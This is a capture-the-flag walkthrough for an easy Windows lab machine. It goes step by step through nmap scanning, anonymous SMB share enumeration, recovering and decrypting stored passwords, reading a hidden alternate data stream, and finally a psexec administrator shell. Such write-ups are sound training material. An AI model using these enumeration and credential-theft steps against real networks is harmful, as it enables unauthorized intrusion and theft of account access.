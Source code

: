 # 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)

## 🧭 Reconnaissance

**Nmap Full TCP Port Scan**
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.178
```

**Nmap Service/Script Scan**
```bash
nmap -p 445,4386 -sC -sV -oA scripts/nmap-tcpscripts 10.10.10.178
```

**Key Ports Identified**
- TCP 445: SMB
- TCP 4386: HQK Reporting Service (custom)

---

## 📁 Initial [SMB](SMB.md) Enumeration

**Anonymous SMB Access**
```bash
smbmap -H 10.10.10.178 -u null
smbclient -N //10.10.10.178/Users
smbclient -N //10.10.10.178/Data
```

**Files of Interest**
- `Welcome Email.txt` → Provided creds: `TempUser : welcome2019`

---

## 🔑 Gaining Access as TempUser

**Enumerate Shares With Credentials**
```bash
smbmap -H 10.10.10.178 -u TempUser -p welcome2019
smbclient -U TempUser //10.10.10.178/Data
```

**Pull Files**
```bash
recurse ON
prompt OFF
mget *
```

**Find Encrypted Password**
- In `RU_config.xml` for user `c.smith`
- Password: `fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=`

**Find Path Hint**
- In `Notepad++` config file → referenced: `\\HTB-NEST\Secure$\IT\Carl`

---

## 🔓 Decrypting C.Smith's Password

**Locate Visual Basic Project**
```bash
smbclient -U TempUser //10.10.10.178/Secure$
cd "IT\Carl"
recurse ON
prompt OFF
mget *
```

**Decrypt Password via DotNetFiddle**
```vbnet
DecryptString("fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=")
```
- Result: `xRxRxPANCAK3SxRxRx`

---

## 🧑‍💻 Shell as C.Smith

**Verify SMB Access**
```bash
smbmap -H 10.10.10.178 -u C.Smith -p xRxRxPANCAK3SxRxRx
```

**Retrieve user.txt**
```bash
smbclient -U C.Smith //10.10.10.178/Users
cd C.Smith
get user.txt
```

---

## 🧠 Debug Access to HQK Reporting Service

**Manual Connect With Telnet**
```bash
telnet 10.10.10.178 4386
```

**Find Hidden Stream in SMB**
```bash
smbclient -U C.Smith //10.10.10.178/Users
cd "HQK Reporting"
allinfo "Debug Mode Password.txt"
get "Debug Mode Password.txt:Password"
```
- Result: `WBQ201953D8w`

**Enable Debug Mode in HQK**
```bash
debug WBQ201953D8w
```

**Show LDAP Config with Encrypted Admin Password**
```bash
setdir LDAP
showquery 2
```

---

## 🔓 Decrypting Admin Password

**Grab and Open HqkLdap.exe in dnSpy**
- Find decryption logic
- Run with breakpoint or patched console output

**Resulting Password**
- `XtH4nkS4Pl4y1nGX`

---

## 👑 Shell as SYSTEM

**PSExec Shell**
```bash
psexec.py administrator:XtH4nkS4Pl4y1nGX@10.10.10.178
```

**Grab root.txt**
```bash
type C:\Users\Administrator\Desktop\root.txt
```